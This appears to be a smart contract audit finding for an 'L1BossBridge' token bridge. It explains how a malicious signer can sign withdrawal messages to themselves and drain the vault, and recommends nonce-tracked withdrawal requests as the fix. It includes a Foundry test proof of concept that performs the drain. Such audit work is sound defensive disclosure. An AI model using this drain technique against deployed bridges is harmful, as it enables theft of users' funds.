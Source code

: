 ## Vulnerability Details
- There is no mechanism inside ```L1BossBridge``` contract to track the withdrawal request being signed by signer actually exists or not due to which a malicious signer can sign for any withdrawal request that can be on their address and 
can potentially drain all the funds by signing the withdrawal message hash for themselves and drain all the funds from the Vault by calling ```L1BossBridge::withdrawTokensToL1``` with their own signature containing the withdrawal request to send funds to their own address.
- Also, a malicious signer can call ```L1BossBridge::depositTokensToL2``` and after successful withdrawal on L2, the signer can then withdraw the token that was deposited on L1 by approving the withdrawal request for themselves.

## Impact
High. A malicious signer can drain all funds.

## Tools Used
Manual Review, Foundry Test

## PoC
Paste the below test in ```test/L1TokenBridge.t.sol``` and run the test: ```forge test --mt test_MaliciousSignerCanDrainAllFunds```
```cpp
function test_MaliciousSignerCanDrainAllFunds() public {
    uint256 depositAmount = 10e18;

    vm.startPrank(user);

    token.approve(address(tokenBridge), depositAmount);
    tokenBridge.depositTokensToL2(user, userInL2, depositAmount);

    vm.stopPrank();

    uint256 vaultMaxBalance = token.balanceOf(address(vault));
    bytes memory maliciousWithdrawalMessage = _getTokenWithdrawalMessage(operator.addr, vaultMaxBalance);
    uint256 maliciousOperatorInitBalance = token.balanceOf(operator.addr);

    (uint8 v, bytes32 r, bytes32 s) = _signMessage(maliciousWithdrawalMessage, operator.key);

    tokenBridge.withdrawTokensToL1(operator.addr, vaultMaxBalance, v, r, s);

    uint256 maliciousOperatorFinalBalance = token.balanceOf(operator.addr);

    assert(vaultMaxBalance != 0);
    assertEq(maliciousOperatorFinalBalance, maliciousOperatorInitBalance + vaultMaxBalance);
}
```

## Recommendations
When deposit is made on a layer 1 to bridge tokens to layer 2 or vice-versa, then a off-chain event is triggered, so consider adding a nonce with that event which will uniquely identify that particular bridge request and store that withdrawal request corresponding to the nonce, which will make sure that a txn being signed by a signer actually exists.
So, when the off-chain mechanism picks up the event mints the corresponding tokens on L2, along with that the particular withdrawal request should be stored on-chain.
## <a id='H-02'></a>H-02. A withdrawal request if signed by more than 1 signer will allow one to withdraw more than 1 times for a single time deposited token.            
